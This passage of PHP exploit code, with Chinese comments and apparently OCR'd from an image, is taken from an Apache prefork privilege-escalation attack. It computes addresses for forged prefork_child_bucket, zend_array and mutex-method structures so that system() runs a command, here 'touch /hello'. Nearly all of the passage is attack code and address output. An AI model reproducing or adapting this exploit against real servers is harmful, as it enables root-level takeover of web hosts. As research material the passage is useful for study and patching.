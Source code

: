 ```
die(“get all_buckets addr error\n”);

}

echo “all_buckets addr:0x”.dechex($all_buckets_addr)."\n";

$evil_parent_start_addr = $parent_arr_addr + 0x24 * 10;//(我这里的parent 就是 prefork_child_bucket结构，0x24是每个prefork_child_bucket的大小，10参考http-mpm.conf中prefork的MaxSpareServers)

echo “evil prefork_child_bucket start addr:0x”.dechex($evil_parent_start_addr)."\n";

//我们需要将prefork_child_bucket与zend_object结合，使其包含zend_object 的 properties字段,因此prefork_child_bucket的"大小"是40+16字节

$evil_parent_end_addr = $evil_parent_start_addr + 40+16;

echo “evil prefork_child_bucket end addr:0x”.dechex($evil_parent_end_addr)."\n";

//将apr_proc_mutex_t结构与zend_array结构结合为一个结构

$evil_zend_array_start_addr = $evil_parent_end_addr;

echo “evil zend_array start addr:0x”.dechex($evil_zend_array_start_addr)."\n";

$evil_zend_array_end_addr = $evil_zend_array_start_addr + 0x38;

echo “evil zend_array end addr:0x”.dechex($evil_zend_array_end_addr)."\n";

//apr_proc_mutex_unix_lock_methods_t结构

$evil_mutex_methods_start_addr = $evil_zend_array_end_addr;

$evil_mutex_methods_end_addr = $evil_mutex_methods_start_addr + 0x50;

echo “evil mutex_methods start addr:0x”.dechex($evil_mutex_methods_start_addr)."\n";

echo “evil mutex_methods end addr:0x”.dechex($evil_mutex_methods_end_addr)."\n";

//system()中的字符串

$evil_string = “touch /hello”;

$evil_string_len = strlen($evil_string)+1;//\0结尾

if($evil_string_len%8){//对齐

$evil_string_len = ((int)($evil_string_len/8)+1)*8;

}

echo “evil string: “.$evil_string.” len:”.$evil_string_len."\n";

$evil_string_start_addr = $evil_mutex_methods_end_addr;

$evil_string_end_addr = $evil_string_start_addr + $evil_string_len;

echo “evil string start addr:0x”.dechex($evil_string_start_addr)."\n";

echo “evil string end addr:0x”.dechex($evil_string_end_addr)."\n";

//查找zend_object_std_dtor的地址(我的在libphp7.so)

$zend_object_std_dtor_addr = 0;
```